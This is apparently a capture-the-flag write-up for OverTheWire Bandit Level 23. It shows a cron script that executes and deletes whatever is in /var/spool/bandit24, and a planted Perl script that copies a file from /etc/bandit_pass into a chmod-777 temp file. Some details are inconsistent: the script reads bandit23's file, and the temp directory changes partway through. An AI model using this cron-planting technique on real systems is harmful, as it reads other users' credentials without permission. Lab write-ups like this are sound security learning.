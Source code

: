 # Over the Wire Bandit Walkthrough (Writeup): http://overthewire.org/wargames/bandit/

## Writeup

## Level 23
**Description**
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

**Solution**
The bandit24 cronjob script is running under /usr/bin/cronjob_bandit24. Viewing the script, it appears that the script executes and deletes all scripts in the /var/spool/bandit24 directory. 

```bash
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24 
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done

```

It looks like I can just write a script that gets the password and writes it into another file I can view. I wrote the following script and copied it into the /var/spool/bandit24 directory.

```bash
bandit23@melinda:/tmp/temp0000098$ touch getpass.pl
bandit23@melinda:/tmp/temp0000098$ touch output.txt
bandit23@melinda:/tmp/temp0000098$ chmod 777 *
bandit23@melinda:/tmp/temp0000098$ vi getpass.pl
bandit23@melinda:/tmp/temp0000098$ cp getpass.pl /var/spool/bandit24/getpass.pl
```

```perl
#!/usr/bin/perl 
system('cat /etc/bandit_pass/bandit23 > /tmp/temp0000098/output.txt');
```

Then all was left to let the cronjob run and cat the file in my temp directory.

```bash
bandit23@melinda:/tmp/meohmy$ cat output.txt 
<password>
```




